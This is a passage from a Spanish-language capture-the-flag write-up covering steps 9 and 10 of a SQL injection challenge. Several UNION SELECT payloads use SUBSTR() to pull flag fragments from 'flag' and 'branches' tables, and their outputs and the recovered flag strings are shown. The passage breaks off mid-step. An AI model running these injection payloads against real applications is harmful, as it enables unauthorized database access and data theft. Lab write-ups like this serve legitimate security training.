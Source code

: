 Resultado:

```
|   id |name                 |  rate |
|    1 |ETSCTF_4b7e39ac882ea |     3 |
```

---

## Paso 9: Uso de `SUBSTR()` para extraer la flag completa

Si la flag está truncada, usamos `SUBSTR()` para obtener fragmentos:

```sql
-1 UNION SELECT 1, SUBSTR(name,7,20), 3 FROM flag --
```

Extrae 20 caracteres empezando en el carácter 7 (después de `ETSCTF_`).

```sql
-1 UNION SELECT 1, SUBSTR(name,20,30), 3 FROM flag --
```

Extrae 30 caracteres desde la posición 20.

Concatenando fragmentos obtenemos:

```
ETSCTF_4b7e39ac882eade2b9ceed5680f0717e
```

---

## Paso 10: Extracción final de la flag desde la tabla `branches`

Flag parcial visible en la tabla `branches`:

```
Pick a branch id: 1
1
|   id |name                 |  rate |
|    1 |ETSCTF_1b294abeee150 | 52642 |
```

Extraemos fragmentos posteriores con:

```sql
-1 UNION SELECT 1, SUBSTR(name,21,40), 3 FROM branches --
```

Resultado:

```
|   id |name                 |  rate |
|    1 |                     |     3 |
|    1 |89657e009445fea8ebc  |     3 |
```

Concatenamos:
